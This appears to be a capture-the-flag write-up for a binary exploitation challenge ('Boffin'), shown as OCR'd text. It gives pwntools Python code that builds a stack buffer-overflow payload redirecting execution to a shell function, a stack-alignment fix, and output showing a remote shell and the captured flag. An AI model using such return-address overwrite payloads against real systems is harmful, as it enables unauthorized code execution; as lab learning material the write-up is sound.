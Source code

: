 
Tried on remote instance on a whim and did get a shell
```python
def shellRemote():
	# Start remote session
	p = remote(HOST, PORT)
	getShell(p)
```

Results
```
┌──(kali㉿kali)-[~/Desktop/4-Week]
└─$ python3 Boffin_Pwn.py
[+] Opening connection to offsec-chalbroker.osiris.cyber.nyu.edu on port 1337: Done
[*] Switching to interactive mode
Hi, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x9d\x06@
$ ls
boffin
flag.txt
$ whoami
pwn
$ cat flag.txt
flag{access_granted_thats_real_cool}
```

More crash info:
```
┌──(kali㉿kali)-[~/Desktop/4-Week]
└─$ python3 Boffin_Pwn.py
[*] Switching to interactive mode
Hi, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x9d\x06@
Program received signal SIGSEGV, Segmentation fault.
0x00007ffff7e17603 in do_system (line=0x4007a4 "/bin/sh")
    at ../sysdeps/posix/system.c:148
148    ../sysdeps/posix/system.c: No such file or directory.
(gdb) $ x/i $pc
=> 0x7ffff7e17603 <do_system+339>:    movaps %xmm0,0x50(%rsp)
```

I think we need it to perform a `ret` to align the stack before calling system
Maybe can push the `ret` address before the `give_shell` address


AH HAH, I love it, it needed padding
```python
def buildSafePld():
	base = b"".join([struct.pack("B", 0x41) for i in range(0,40)])
	retAddr = b"".join([struct.pack("B", 0x1a), struct.pack("B", 0x07), struct.pack("B", 0x40), struct.pack("B", 0x00), struct.pack("B", 0x00)])
	data = b"".join([struct.pack("B", 0x9d), struct.pack("B", 0x06), struct.pack("B", 0x40), struct.pack("B", 0x00), struct.pack("B", 0x00)])
	pad = b"".join([struct.pack("B", 0x00) for i in range(0,3)])
	return base + retAddr + pad + data
	
def getSafeShell(p):
	payload = buildSafePld()
	p.recvuntil("Hey! What's your name?")
	p.sendline(payload)
	p.interactive()
```
